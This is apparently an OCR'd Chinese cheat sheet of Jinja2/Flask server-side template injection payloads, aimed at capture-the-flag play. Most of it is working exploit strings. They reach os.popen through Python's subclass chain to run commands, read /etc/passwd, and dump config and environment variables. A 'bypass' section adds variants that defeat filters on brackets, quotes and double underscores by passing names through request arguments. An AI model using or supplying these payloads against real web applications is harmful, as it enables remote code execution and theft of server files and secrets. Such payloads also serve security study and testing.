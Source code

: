 
找到某个类之后继续调用，找到子类，父类等


最后通过找到的类中可能包含的函数os.。。。。在服务器端执行代码即可。


```plain
.__class__.__mro__//找基类
.__class__.__mro__[0].__subclasses__()//基类中的子类
{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__}}//.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。
.__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()//基类中的子类中的某个函数，执行并且调用。
{{config.__class__.__init__.__globals__['os'].environ}}这个是关于配置文件的，有时候FLAG也会放在配置文件之中。
Plain Text
```



## 绕过姿势

欢迎补充


### 绕过中括号


```plain
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
Plain Text
```



```plain
使用gititem绕过。如原poc {{"".class.bases[0]}}绕过后{{"".class.bases.getitem(0)}}
Plain Text
```






pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值


### 过滤引号


```plain
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
Plain Text
```



### 过滤双下划线


```plain
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
Plain Text
```
